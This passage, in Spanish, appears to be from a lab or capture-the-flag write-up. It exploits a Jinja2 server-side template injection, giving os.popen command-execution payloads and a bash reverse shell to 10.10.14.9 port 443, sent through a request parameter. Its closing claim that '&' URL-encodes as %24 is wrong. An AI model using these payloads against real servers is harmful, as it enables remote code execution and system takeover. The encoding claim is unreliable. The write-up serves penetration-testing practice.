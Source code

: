 Estupendo parece que es vulnerable a jinja2 para python, voy a buscar payloads y a ir probando algunos desde repeater de burpsuite a ver que conseguimos. Lo ideal es conseguir una revert shell por lo que tendremos que ponernos en escucha, pero bueno, no adelantemos acontecimientos.

#### Exploit the SSTI by calling os.popen().read()

These payloads are context-free, and do not require anything, except being in a jinja2 Template object:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
```

Pues realmente una vez localizado los payloads no he tenido que probar mucho

![](2022-06-30-19-16-13.png)

Voy a mandar poniendo la revertshell

La revert shell sería esta 

```bash
#antes me pongo en escucha en otra terminal

nc -lnvp 443

bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1
```

costume={{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1"').read() }}&q=1&addr=1

![](2022-06-30-19-22-23.png)

Entiendo que como tiene parámetros con &... debo de convertirlos, sino probaré luego con base64 etc diferentes modos.
& --> %24